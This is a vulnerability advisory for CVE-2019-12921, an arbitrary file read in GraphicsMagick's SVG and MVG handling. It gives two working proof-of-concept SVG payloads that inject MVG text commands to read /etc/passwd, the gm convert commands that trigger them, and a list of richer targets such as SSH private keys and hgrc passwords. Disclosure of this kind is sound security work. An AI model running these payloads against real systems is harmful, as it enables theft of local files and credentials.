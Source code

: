 # CVE-2019-12921
- Title:         Arbitary file read at TranslateTextEx GraphicsMagick before 1.3.32
- Scope:         http://hg.code.sf.net/p/graphicsmagick/code/
- Weakness:      Information Disclosure
- Severity:      High
- Date:          2019-06-24 12:21:30 +0000
- By:            @d4d

## Arbitary file read at TranslateTextEx GraphicsMagick before 1.3.32

Local file read vulnerability affects GraphicsMagick multiple decoders that may use MVG syntaxis by default. Malicious user can get access to the local file content.
To exploit this vulnerability untrusted user file should be converted to another format with command:
`gm convert exploit.svg output.png`

where exploit.svg is
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
     xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
     <image xlink:href="http://00d4d.com/1/' text 128,128 '@/etc/passwd" x="0" y="0" height="137px" width="137px"/>
</svg>
```

Exploit inject custom TextPrimitive inside ImagePrimitive at MVG coder. SVG coder when reads xlink:href attribute do not properly escape ' and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file.

Malicious user can exploit this vulnerability at image attributes generation process for SVG coder too. 
Attributes generation process at some of the images such as SVG have issue that may allow malicious user read any local file contents.
exploit.svg is
```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image xlink:href="http://00d4d.com/1" x="0" y="0" height="137px" width="137px"/></svg>
```

Function SetImageAttribute(Image *image,const char *key,const char *value) do not properly translate comments and label for this image that allow attacker to get file contents when image attributes will be written for image formats like JPEG and GIF. To reproduce vulnerability convert image:
`gm convert exploit.svg output.gif`
`gm convert exploit.svg output.jpeg`
Image attributes (comments section) will contains file contents.

## Timeline
- Reported to project maintainers: 6 Jun 2019
- Acknowledged: 6 June 2019
- Patched: 6 June 2019
- Released: 15 June 2019
- CVE Assigned: 20 June 2019
- Advisory confirmed by project maintainers: 20 June 2019

## Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to the ssh private keys used for host authentication or ssh private keys without a password are more useful.  Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.
